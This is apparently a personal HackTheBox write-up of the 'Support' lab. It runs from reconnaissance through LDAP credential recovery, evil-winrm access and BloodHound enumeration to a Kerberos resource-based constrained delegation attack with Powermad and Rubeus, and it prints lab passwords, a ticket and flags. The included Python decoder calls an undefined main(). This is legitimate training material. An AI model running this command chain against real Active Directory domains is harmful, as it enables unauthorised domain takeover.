







# Support 

- Background: windows Server

## Reconnaissance

### nmap 

```nmap 10.10.11.174 ```


```nmap -sV -sC -sS 10.10.11.174```


```nmap -sS -sC -p- 10.10.11.174```


```nmap -sS -sC -sV -p- 10.10.11.174```


###  Gathering Information 

According to the nmap result, here are some exploit thinking.   
1. DNS Server on Port 53, check subdomain to find other entry point 
2. Kerberos build on port 88, Research for Kerberos 
3. LDAP AD server on port 389, LDAP SSL on port 636 and Port 3268 also is resolved to Global LDAP AD Server, Port 3269 is resolved to Global LDAP SSL.
4. PORT 445 is open, maybe is SMB. (Research : microsoft-ds)
5. Windows RPC on Port 135 and 593
6. Research for those port: 139,464 


#### Start DNS Server 

- Background: Port 53 on Windows
- Check Windows DNS Server exploitation
- Using ```dig``` to get more information
- Banner Grabbing  
```
dig version.bind CHAOS TXT @10.10.11.174
```


- DNS that resolves that name
```
dig nx support.htb @10.10.11.174
```


- Emails related
```
dig mx support.htb @10.10.11.174
```


- Zone Transfer
```
dig axfr support.htb @10.10.11.174
```


- Any Information
```
dig any support.htb @10.10.11.174
```


#### Microsoft Windows RPC on Port 593 

- Access to Microsoft Windows RPC over HTTP 1.0


- On Port 135 and 593 
- Tools: Impacket - ```rpcdump.py```
```
python3 rpcdump.py 10.10.11.174
```
- Result: 





- Impacket - ```rpcmap.py```
```
python3 rpcmap.py 'ncacn_ip_tcp:10.10.11.174'
```


- check those result which protocol has been map, and corresponding to the table provide by [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/c25391af-f59e-40da-885e-cc84076673e4)
- UUID : 000001A0-0000-0000-C000-000000000046


- Corresponding to table in Microsoft. 
- Service Name:IID_IRemoteSCMActivator


- UUID: 4D9F4AB8-7D1C-11CF-861E-0020AF67C57


- Service Name: IID_IActivation 


- UUID: 99FCFEC4-5260-101B-BBCB-00AA0021347A


- Service Name: IID_IObjectExporter


- Check the writeup for past similar challenge - APT
- In this [article](https://0xdf.gitlab.io/2021/04/10/htb-apt.html), I found the similar part about rpc.
- Download the tool - [IOXIDResolver](https://github.com/mubix/IOXIDResolver), and execute it, but only get the address, there is no any other useful information.
```
python3 IOXIDResolver.py -t 10.10.11.174
```

- UUID: AFA8BD80-7D8A-11C9-BEF4-08002B102989


- Service Name: Can't find the corresponding one. 

#### SMB Information

- On Port 445 
- Check Information
```
smbclient -L \\\\10.10.11.174
```


- Move into support-tools
```
smbclient \\\\10.10.11.174\\support-tools
```


##### UserInfo file

- get UserInfo file 
```
get UserInfo.exe.zip
```


- Analyze it by Ghidra


- Analuze it by IDA
- Show that is ```.NET Framework``` EXE file


- Decompiler it by dnspy


- Find a interesting function - ```ldapQuery```


- Check ```getPassword``` function


- Write a revert password code by Python
```

import base64

def solution():
	enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
	key = "armando".encode("UTF-8")

	array = base64.b64decode(enc_password)
	array2 = ""
	for i in range(len(array)):
		array2 += chr(array[i] ^ key[i % len(key)] ^ 223) 

	print(array2)

if __name__ == '__main__':
	main()
```


- Execute it and get ldap password
```nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```


- Move to SYSVOL --> Failed to read disk content(ACCESS DENIED)
```
smblient \\\\10.10.11.174\\SYSVOL
```


- Move to NETLOGON --> Failed to read disk content(ACCESS DENIED)
```
smblient \\\\10.10.11.174\\NETLOGON
```


#### winrm(Windows Remote Management)

According to nmap result, research port 5985
- on Port 5985(HTTP) / on Port 5986(HTTPS)
- We can easily find blog about WinRM
- WinRM is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP


- Install Command
```
gem install evil-winrm
```


#### Kerberos Information 

- On Port 88 

#### LDAP Active Directory Server Information

- On Port 389, 636 and 3268, 3269.

## Exploit 

### ldap information

- After get ldap password by reverse from ```UserInfo.exe```
Password : ```nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz```
- Using ldap search to search the account
```
ldapsearch -v -x -b "DC=support,DC=htb" -H "ldap://10.10.11.174" "(objectclass=*)" "sAMAccountName" -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' | grep sAMAccountName
```




- Check the ldap information with Account Name = support
```
ldapsearch -v -x -b "CN=support,CN=Users,DC=support,DC=htb" -H "ldap://10.10.11.174" "(objectclass=*)" -D "support\\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```
- Find some useful information name 'info'
- info : ```Ironside47pleasure40Watchful```


##### Explain the ldapsearch command 

- ```-v```: 
- ```-x```:
- ```-b```:
    - DC
    - CN 
- ```-H```:
- ```-w```: password 
- ```-D```:

#### Method 2 - ldapdomaindump

- ldapdomaindump 
```
ldapdomaindump -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' 10.10.11.174
```
- It will generate many file 


- Check `domain_user.html`


### Exploit from WinRM by evil-winrm

- Usage of evil-winrm
```
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```


- Exploit command, get into victim server
```
evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful
```


- Travel the victim server


- Find ```user.txt```


- Get user flag: ```07eaf9ca86fa448811e2e26eb987f306```


## Post Exploitation

### Gathering Information

- In ```/Users``` directory, I can find other user like 'Administrator', 'ldap' but I can't access it since permission issue


- Research by Google, and I can find that the AD-related challenge always use BloodHound to enumerate the path in AD server.
- And SharpHound is another tool I find in other writeup, SharpHound is the official data collector for BloodHound.It is written in C# and uses native Windows API functions and LDAP namespace functions to collect data from domain controllers and domain-joined Windows systems.
- Tools
    - [BloodHound](https://bloodhound.readthedocs.io/en/latest/)
    - [SharpHound](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
- Upload SharpHound to victim server
```*Evil-WinRM* PS> upload /home/kali/Desktop/HTB/support/SharpHound.exe sh.exe```


- Now run SharpHound to gather the AD data. After SharpHound runs, download the ZIP file it created.
- Execute SharpHound 
```*Evil-WinRM* PS > ./sh.exe --memcache -c all -d SUPPORT.HTB -DomainController 127.0.0.1```
- it will generate a zip file 

- Download the result zip file 
```
download <filename>.zip <localPath>
```


#### BloodHound
- Now we can drag and drop the ZIP file SharpHound created into BloodHound. Then we can use the analysis options within BloodHount to hunt for vulnerabilities.
##### Launch Blood Hound
1. Execute neo4j
    ```
    ./neo4j console
    ```
- neo4j locat in ```/usr/bin```


- According to the verbose infromation, neo4j will run interface by http on port 7474
- and it also can be accessed by protocol ```bolt``` and ```neo4j``` on port 7687
- Access ```localhost:7474``` in browser


2. Execute bloodhound
    ```
    ./BloodHound --no-sandbox
    ```


3. Login BloodHound by neo4j credential

```
URL : neo4j://127.0.0.1:7687
Credential: neo4j / Password (this is not default)
```
- The Origin diagram as follow:


- Choosing the following condition to check the diagram
- ```Analysis -> Shortest Path -> Shortest Path to unconstrained Delegation System```

- If we run the above condition, we find the “SHARED SUPPORT ACCOUNTS@SUPPORT.HTB” group has a “GenericAll” permission on “DC.SUPPORT.HTB”. The “support” user account that we have access to is a member of the “SHARED SUPPORT ACCOUNTS@SUPPORT.HTB” group. Thus, giving us “GenericAll” permission over “DC.SUPPORT.HTB”, which can be leveraged to escalate our privileges.


- Check ```SUPPORT@SUPPORT.HTB```, 


- Click 'SUPPORT@SUPPORT.HTB'
- Node Info -> OURBOUND OBJECT CONTROL -> Group Delegated Object Control


- Thanks to BloodHound, we can see that the user account we already pwned(“support”) has a “GenericAll” permission over the AD-Object “dc.support.htb”. To leverage this, we will need to perform a **Kerberos Resource-based Constrained Delegation attack**.
##### Related Article 

- [Kerberos Resource-based Constrained Delegation attack](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
- [Abusing Active Directory ACLs/ACEs](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#genericall-genericwrite-write-on-computer)
- [Resource-based Constrained Delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)

### Privilege Escalation

Since I can use evil-winRM to access to victim host,
and I also got the topology by BloodHound.
but I tried to know, what I can do in evil-winRM, 
since it seems like a restrict environment.


- Let's download these 2 powershell script
- [Powermad](https://github.com/Kevin-Robertson/Powermad)
- [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)


- Let's find out how to import extra powershell scripts to evil-winRM
- option for evil-winRM
    - ```-i```: target host(target address)
    - ```-u```: target user
    - ```-p```: target password
    - ```-s```: extra script directory
        
    - ```-e```: Advanced commands (Invoke-Binary)
        
- So the final command as follow:
```evil-winrm -i 10.10.11.174 -u support -p Ironside47pleasure40Watchful -s /root/WinPS -e /root/Winexe```
- The extra Powershell script store in ```/WinPS```
- The Rubeus execute file store in ```/Winexe```


- After the ```evil-winrm``` execute successful, by the Powershell script name to import the script
```Powermad.ps1```


- Second script
```PowerView.ps1```


- Reference to this [article - Kerberos Resource-based Constrained Delegation: Computer Object Takeover](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)

> Description : It's possible to gain code execution with elevated privileges on a remote computer if you have WRITE privilege on that computer's AD object.
```
Get-DomainObject -Identity "dc=support,dc=htb" -Domain support.htb
```


- Check 'ms-ds-machineaccountquota', and confirm if I can create a new computer object on the domain.
- By default, a domain member can add up to 10 computers to the domain.


- Check the detail of DomainController
```
Get-DomainController
```
- I have to confirm if the machine is at least Windows Server 2012


- Now the Target OSVersion is Windows Server 2022 Standard
```
OSVersion: Windows Server 2022 Standard
```


- Check hostname 
```
hostname
```


- Check object must not have the attribute 'msds-allowedtoactonbehalfofotheridentity' set
```
Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```


#### CREATE A NEW COMPUTER OBJECT
- With following command, I can create a new computer object which name is ```xfake01```, Password is 123456
```
New-MachineAccount -MachineAccount xfake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```


- Check the Object SID
```
Get-DomainComputer xfake01 -Properties objectsid
```


- With Built-in AD modules, give the new fake computer object the Constrained Delegation privilege.(Configuring Resource-based Constrained Delegation)
```
Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount "CN=xfake01,CN=Computers,DC=support,DC=htb"
```


- With Built-in AD modules, check that the last command worked or not.
```
Get-ADComputer DC
```


```
Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount
```


- Download Rubeus to attack host

```
git clone https://github.com/GhostPack/Rubeus.git
```
or
```
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
```

- Upload Rubeus file
```
 upload /home/kali/Desktop/HTB/tools/Rubeus.exe
```

- Comfirm in victim host
```
./re.exe
```


- With Rubeus, generate the new fake computer object password hashes. 
- Since we created the computer object with the password 123456 we will need those hashes


- Create Password Hash
```
./re.exe hash /password:123456 /user:xfake01$ /domain:support.htb
```


- Hash Result 
```
rc4 hmac : 32ED87BDB5FDC5E9CBA88547376818D4
aes128_cts_hmac_sha1 : 7A69CD71BF02237EC6C31D391D723EA7 
aes256_cts_hmac_sha1 : 43736B51EEA3B3EA4BD2568BD93F236C1E2C24657802E0E0D7489BDF8344DD71 
des_cbc_md5 : 4AE9BA9D070DC7C2 
```


### Exploit Root
#### Method 1 : Performing a complete S4U attack
- Accordin to [this writeup](https://zer02wo.gitlab.io/writeups/2022/09/07/Support-HTB-Writeup.html)
- Requesting a Kerberos ticket for ```fake01$``` while impersonating an administrator.
```
./re.exe s4u /user:xfake01$ /rc4: 32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```


```
base64(ticket.kirbi) for SPN 'host/dc.support.htb': 
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 
```


- Accessing
Klist command can confirm to us that we infact do have an Administrator service ticket in the cache to perform pass the ticket attacks.
```klist```


- Checking Kerberos tickets on the system 
checking kerberos tickets on the system showed that I had a TGS ticket for Administrator for the CIFS service at dc.support.htb, but the attack still did not work:
```
ls \\dc.support.htb\c$
```
- Result:  Access denied, Retry again and again
- Followin write up, it mentioned [this article](https://www.hackingarticles.in/domain-escalation-resource-based-constrained-delegation/)
- In that ariticle, there are a description like: 
> Moreover, the ticket obtained from Rubeus can also be parsed into Kali too. This can be achieved by converting the base64 encoded kirbi ticket into a clear text kirbi file. Then we can convert this kirbi ticket to ccache as kali doesn’t support Kirbi format(only Windows-specific and can be used with Rubeus). KRB5CCNAME is the variable that stores service tickets for AD attacks.


- So I tried this method from parrot linux to see if this works, and luckily this worked!
- Decode and save based64 host ticket to ticket.kirbi file
```
echo "<base64 string>" | base64 -d > ticket.kirbi
```

- Convert the plain-text ticket to ccache:
```
python3 ticketConverter.py ../../../support/victim/ticket.kribi admin.ccahe
```


- Set KRB5CCNAME environment variable in parrot


- Using this ticket, we can conduct privilege escalation attacks to authenticate as Administrator with impacket’s psexec:
```
python3 psexec.py -k -no-pass support.htb/Administrator@dc.support.htb -dc-ip dc.support.htb -target-ip 10.10.11.174
```


- Get root flag


#### method 2 

- [Reference Write up](https://cybergladius.com/htb-walkthrough-support/)

- Using getTGT from Impacket, generate a ccached TGT and used KERB5CCNAME pass the ccahe file for the requested service. 
- impacket / getST.py
```python3 getST.py support.htb/xfake01:123456 -dc-ip dc.support.htb -impersonate administrator -spn www/dc.support.htb```


- Set local variable of KERB5CCNAME to pass the ccahe TGT file for the requested service.
- KRB4CCNAME export
```
export KRB5CCNAME=administrator.ccache
```
 

- Use impacket-wmiexec to connect with the TGT we just made to the server as the user administrator 
- Impacket-wmiexec
```
impacket-wmiexec support.htb/administrator@dc.support.htb -no-pass -k
```


- Get root flag 
```
e5bb910d1d9db89a2287054d5cc60d8b 
```


## Reference 

### Discussion

- [Breached - Support - HTB [Discussion]](https://breached.to/Thread-Support-HTB-Discussion?page=9)

### writeup 

- [Writeup for another challenge - APT](https://0xdf.gitlab.io/2021/04/10/htb-apt.html)
- [Writeup 1 by shakuganz ](https://shakuganz.com/2022/09/13/hackthebox-support-write-up/)
- [Write up 2 by cybergladius](https://cybergladius.com/htb-walkthrough-support/)
- [Write up 3 by zer02wo](https://zer02wo.gitlab.io/writeups/2022/09/07/Support-HTB-Writeup.html)
### Tools 

- [Impacket](https://github.com/SecureAuthCorp/impacket.git)
- [IOXIDResolver](https://github.com/mubix/IOXIDResolver)
- [(GITHUB)evil-winrm](https://github.com/Hackplayers/evil-winrm)

#### Reverse Engineer 

- [.NET Reverse- dnSpy](https://github.com/dnSpy/dnSpy)

### Research Information

#### DNS 

- [Hacktricks DNS](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns)
- [Windows DNS Server Vulnerability(CVE-2020-1350)](https://support.microsoft.com/en-us/topic/kb4569509-guidance-for-dns-server-vulnerability-cve-2020-1350-6bdf3ae7-1961-2d25-7244-cce61b056569)

#### msrpc

- [Hacktricks msrpc](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc)
- [Windows Privilege Escalations:
Still abusing Service Accounts to get SYSTEM
privileges](https://2020.romhack.io/dl-2020/RH2020-slides-Cocomazzi.pdf)
- [DCOM Remote Protocol - 1.9 Standards Assignments](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/c25391af-f59e-40da-885e-cc84076673e4)

#### ldap

- [ldapSearch Tutorial 1](http://blog.jason.tools/2022/02/ldapsearch-cli.html)
- [ldapSearch Tutorial 1](https://help.hcltechsw.com/domino/11.0.1/zh_TW/admin/conf_examplesofusingldapsearch_t.html)
- [ldapSearch Tutorial 1](https://www.796t.com/content/1542316323.html)
- [(HackTrick)](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
- [Introduce LDAP](https://itman.pixnet.net/blog/post/26817279)


#### winrm

- [(HackTrick)5985,5986 - Pentesting WinRM](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm)
- [(GITHUB)evil-winrm](https://github.com/Hackplayers/evil-winrm)
- [Evil-Winrm : Winrm Pentesting Framework](https://www.hackingarticles.in/evil-winrm-winrm-pentesting-framework/)
- [Evil-Winrm - The Ultimate WinRM Shell For Hacking/Pentesting](https://vulners.com/kitploit/KITPLOIT:1521717899068290187)
- [(Video)Services Exploitation: WinRM: Evil-WinRM Invoke-PS-Script](https://www.youtube.com/watch?v=cJJk91lqTWg)


- [Powermad](https://github.com/Kevin-Robertson/Powermad)


- [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)


### Privilege Escalation 

- [BloodHound](https://bloodhound.readthedocs.io/en/latest/)
- [SharpHound Introduction](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
- [BloodHound Installation](https://bloodhound.readthedocs.io/en/latest/installation/linux.html)
- [BloodHound Release Page](https://github.com/BloodHoundAD/BloodHound/releases)
- [SharpHound Installation](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)

### Rubeus

- [A Detailed Guide on Rubeus](https://www.hackingarticles.in/a-detailed-guide-on-rubeus/)
- [(Github)Rubeus](https://github.com/GhostPack/Rubeus)
#### Sample Usage Case 
- [Domain Escalation – sAMAccountName Spoofing](https://pentestlab.blog/tag/rubeus/)

### Debug related article - need to read
#### Resource-based Constrained Delegation
- [Domain Escalation: Resource Based Constrained Delegation](https://www.hackingarticles.in/domain-escalation-resource-based-constrained-delegation/)
- [Kerberos Resource-based Constrained Delegation attack](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
- [Abusing Active Directory ACLs/ACEs](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces#genericall-genericwrite-write-on-computer)
- [(Hacktricks)Resource-based Constrained Delegation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/resource-based-constrained-delegation)

#### Other

- [针对活动目录（AD）的渗透测试全攻略](https://www.4hou.com/posts/gkol)
- [pub/ruby/3.0/](https://ftp.ruby-lang.org/pub/ruby/3.0/)


###### tags: `HackTheBox` `Easy` `Support` `Windows`